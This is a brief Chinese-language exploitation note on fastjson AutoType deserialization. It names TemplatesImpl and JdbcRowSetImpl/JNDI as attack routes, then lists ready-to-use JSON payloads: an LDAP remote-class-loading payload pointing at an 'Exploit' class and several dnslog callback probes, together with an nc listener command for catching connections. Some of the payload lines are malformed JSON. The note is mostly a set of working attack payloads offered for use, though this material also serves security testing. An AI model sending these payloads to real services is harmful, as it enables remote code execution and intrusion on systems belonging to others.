 *漏洞核心*：
使用fastjson的AutoType机制去反序列我们精心挑选的恶意类，这些恶意类在反序列时会伴随着加载恶意代码，获取通过请求
外部接口的形式加载恶意代码。

两种利用方式

- 通过 `TemplatesImpl` 类直接指定恶意代码
- 通过 `JdbcRowSetImpl` 获取rmi服务上的恶意代码，恶意代码为JNDI中`Reference`类指定的外部类。

tips:

测试是否外联

1. 开启一个监听端口的服务 `nc -lvvp 9632`
2. 尝试连接
    - 使用ladp
    ``` json
    {"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:7777/Exploit","autoCommit":true}}}
    ```

    - 使用dnslog回显
    ```json
    {"handsome":{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"rmi://xxx.dnslog.cn/aaa","autoCommit":true}}
    {"a":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}
    {"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
    {"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
    {"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
    {"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"xxx.dnslog.cn"}}""}
    {{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:"aaa"}
    Set[{"@type":"java.net.URL","val":"xxx.dnslog.cn"} {{"@type":"java.net.URL","val":"xxx.dnslog.cn"}:0
    
    ```
    